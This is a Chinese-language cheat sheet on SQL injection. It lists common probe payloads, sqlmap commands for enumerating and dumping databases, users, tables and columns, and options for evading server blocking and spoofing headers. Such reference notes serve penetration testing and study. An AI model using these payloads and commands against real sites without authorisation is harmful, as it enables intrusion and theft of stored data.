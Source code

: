 # SQL 注入

## 探测到底是不是通过拼接字符串方式使用 SQL

- 常用字符：

```
'
"
' and 1=1
' and 1=2
1 or 1=1
1' or '1'='1
1" or "1"="1
1' order by 1--
union select 1,2--
@@version
@@datadir
user()
database()
information_schema.tables

```


## sqlmap 分析数据库和表名、dump 表数据

#### sqlmap 介绍

- 目前做 SQL 注入的工具一般大家都是选择：[sqlmap](http://sqlmap.org/)
	- 目前（2018年08月）只支持：2.6.x 和 2.7.x
- 支持的 5 种注入类型：
	- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
	- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
	- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
	- 联合查询注入，可以使用union的情况下的注入。
	- 堆查询注入，可以同时执行多条语句的执行时的注入。


#### sqlmap 使用

- sqlmap 的输出信息按从简到繁共分为7个级别，依次为 0 ~ 6，级别越高，检测越全面。分别代表：
	- 使用参数 `-v <级别>` 来指定某个等级，默认输出级别为 1

```
0：只显示 Python 的 tracebacks 信息、错误信息 [ERROR] 和关键信息 [CRITICAL]；
1：同时显示普通信息 [INFO] 和警告信息[WARNING]；
2：同时显示调试信息[DEBUG]；
3：同时显示注入使用的攻击荷载；
4：同时显示 HTTP 请求；
5：同时显示 HTTP 响应头；
6：同时显示 HTTP 响应体。
```

- 将 Google 搜索前一百个结果作为攻击目标：`sqlmap -g "inurl:\".asp?id=1\""`
- 检查注入点（GET）：`sqlmap -u 目标网址`
- 检查注入点（POST 数据，多个数据用分号隔开）：`sqlmap -u 目标网址 --data="id=0;name=werner" --param-del=";"`
- 检查注入点（Cookie，等级必须是 2 以上）：`sqlmap -u 目标网址 --cookie –level 2 "JSESSIONID=123456;NAME=youmeek;" --cookie-del=";"`
- 获取所有数据库信息：`sqlmap -u 目标网址 --dbs`
- 获取所有数据库用户：`sqlmap -u 目标网址 --users`
- 获取当前数据库信息：`sqlmap -u 目标网址 --current-db`
- 获取当前用户：`sqlmap -u 目标网址 --current-user`
- 获取当前数据库和当前用户：`sqlmap -u 目标网址 --current-db --current-user`
- 获取有几张表：`sqlmap -u 目标网址 --tables`
- 获取指定表的字段有哪些：`sqlmap -u 目标网址 -T 表名 --columns`
- 获取指定表字段值：`sqlmap -u 目标网址 -T 表名 -C 字段名1,字段名2,字段名3 --dump`
- 获取指定表字段所有值：`sqlmap -u 目标网址 -T 表名 -C 字段名1,字段名2,字段名3 --dump-all`
- 让 HTTP 请求之间添加延迟，添加参数：`--delay 3`，单位是秒
- 设置超时时间，默认是 30 秒，添加参数：`--timeout 50`，单位是秒
- 设置超时后最大重试次数，默认是 3 次，添加参数：`--retries 5`
- 避免错误请求过多而被屏蔽：

```
有时服务器检测到某个客户端错误请求过多会对其进行屏蔽，而 sqlmap 的测试往往会产生大量错误请求，为避免被屏蔽，可以时不时的产生几个正常请求以迷惑服务器。有以下四个参数与这一机制有关：

--safe-url: 隔一会就访问一下的安全 URL
--safe-post: 访问安全 URL 时携带的 POST 数据
--safe-req: 从文件中载入安全 HTTP 请求
--safe-freq: 每次测试请求之后都会访问一下的安全 URL

这里所谓的安全 URL 是指访问会返回 200、没有任何报错的 URL。相应地，Sqlmap 也不会对安全 URL 进行任何注入测试。
```

- 其他常用参数：
	- 构造随机 user-agent：`–random-agent` 
	- 指定 HTTP Referer头：`–referer=设定值`
	- 换行分开，加入其他的HTTP头：`–headers=设定值`
	- 忽略响应的 Set–Cookie 头信息：`–drop-set-cookie` 

## 分析登录后台入口

- nikto

## 资料

- <http://www.cnblogs.com/hongfei/p/3872156.html>
- <https://www.tr0y.wang/2018/03/21/SQLmap/index.html>
